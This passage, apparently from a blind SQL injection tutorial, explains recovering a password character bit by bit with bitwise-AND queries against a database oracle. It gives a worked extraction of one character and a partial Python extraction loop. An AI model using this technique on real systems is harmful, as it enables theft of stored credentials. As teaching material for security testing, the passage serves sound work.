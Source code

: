 For example, the number `23` in binary is `00010111`, therefore `23 & 4` is `4` and `23 & 8` is `0`. We can set up a query like `ASCII(SUBSTRING(password,N,1)) & X) > 0` to test if the `N'th` character of `password` bitwise-and `X` is bigger than 0 or not to see if the bit which corresponds to `2^X` is a `1` or `0`.

An example of using this technique to dump the character `9` looks like this:

```bash
Target = '9' = 57

Is <target> bitwise-and 1 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 1) > 0
-> Yes
-> Dump = ......1

Is <target> bitwise-and 2 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 2) > 0
-> No
-> Dump = .....01

Is <target> bitwise-and 4 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 4) > 0
-> No
-> Dump = ....001

Is <target> bitwise-and 8 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 8) > 0
-> Yes
-> Dump = ...1001

Is <target> bitwise-and 16 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 16) > 0
-> Yes
-> Dump = ..11001

Is <target> bitwise-and 32 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 32) > 0
-> Yes
-> Dump = .111001

Is <target> bitwise-and 64 bigger than 0?
-> (ASCII(SUBSTRING(password,2,1)) & 64) > 0
-> No
-> Dump = 0111001

Dump = 0111001 = 57 = '9'

```

We can implement this algorithm in our Python script like this. Once again, don't forget to comment out the previous loops.

```python
# Dump the target's password
# ...

# Dump the target's password (Bisection)
# ...

# Dump the target's password (SQL-Anding)
print("[*] Password = ", end='')
for i in range(1, length + 1):
    c = 0
    for p in range(7):
        if oracle(f"ASCII(SUBSTRING(password,{i},1))&{2**p}>0"):
            c |= 2**p
```